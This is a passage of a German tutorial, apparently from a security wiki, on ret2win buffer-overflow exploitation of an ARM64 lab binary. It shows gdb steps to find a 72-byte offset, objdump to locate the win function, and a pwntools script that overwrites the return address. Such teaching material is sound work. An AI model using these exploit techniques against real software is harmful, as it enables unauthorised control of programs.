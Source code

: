 Setzen Sie nun einen Haltepunkt nach dem `read()` und fahren Sie fort, bis das `read()` ausgeführt wird, und setzen Sie ein Muster wie 13371337:
```
b *vulnerable_function+28
c
```
<figure><img src="../../../.gitbook/assets/image (1208).png" alt=""><figcaption></figcaption></figure>

Finde heraus, wo dieses Muster im Speicher gespeichert ist:

<figure><img src="../../../.gitbook/assets/image (1209).png" alt=""><figcaption></figcaption></figure>

Dann: **`0xfffffffff148 - 0xfffffffff100 = 0x48 = 72`**

<figure><img src="../../../.gitbook/assets/image (1210).png" alt="" width="339"><figcaption></figcaption></figure>

## Kein PIE

### Regulär

Hole dir die Adresse der **`win`** Funktion:
```bash
objdump -d ret2win | grep win
ret2win:     file format elf64-littleaarch64
00000000004006c4 <win>:
```
Exploit:
```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p64(0x00000000004006c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
```